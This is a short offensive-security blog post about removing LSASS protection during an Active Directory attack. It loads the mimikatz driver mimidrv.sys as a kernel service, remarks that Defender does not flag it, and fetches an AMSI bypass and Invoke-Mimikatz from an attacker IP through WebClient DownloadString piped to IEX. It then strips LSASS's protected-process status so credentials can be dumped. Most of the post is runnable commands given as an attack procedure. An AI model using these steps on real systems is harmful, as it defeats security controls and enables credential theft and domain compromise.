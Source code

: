 ```yaml
---
layout: post
title: Disabling LSA protection with mimidrv.sys
---
```

![](/images/2021-1-1-mimidrv/0.png)


During your Active directory attack, once you have elevated your privilege to NT SYSTEM, the first thing we can do is to dump hashes from LSASS but what if the LSASS is protcted.

If LSASS protection is enabled we cannot tamper with the process, if LSASS is marked as Protected Process Light (PPL) then protection is turned on !

PS: You can use a powershell script such as HostRecon.ps1 to find out if protection is enabled.

In this post we will take a look at how we can run mimikatz to do this by the driver MIMIKATZ uses to accomplish this !

```
mimidrv.sys
```

First thing to do is to upload the driver file into disk, fortunately, defender does not flag this as malicious !


Now we will create as service and load the driver

```
sc create mimidrv binPath= C:\tmp\mimidrv.sys type= kernel start= demand
```

Now we will start the service

```

sc start mimidrv
```

With the driver running, we can instruct it to turn off the LSASS PPL protection.

In order to do that, we will first disable AMSI and load mimikatz (the whole point of this exercise to minimize the number of time we run mimikatz)

```
Step 1: Start powershell
Step 2: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/AMSI.txt') | IEX
Step 3: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/mimikatz.txt') | IEX
Step 4: Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`"" 


```

![](/images/2021-1-1-mimidrv/2.png)

With the driver running combined with the above command, we have successfully disabled the protection !!

Now we can use any method to dump the lSASS process and download it offline and use tools such as "MIMIKATZ" or "PYPYKATZ" to extract the credentials

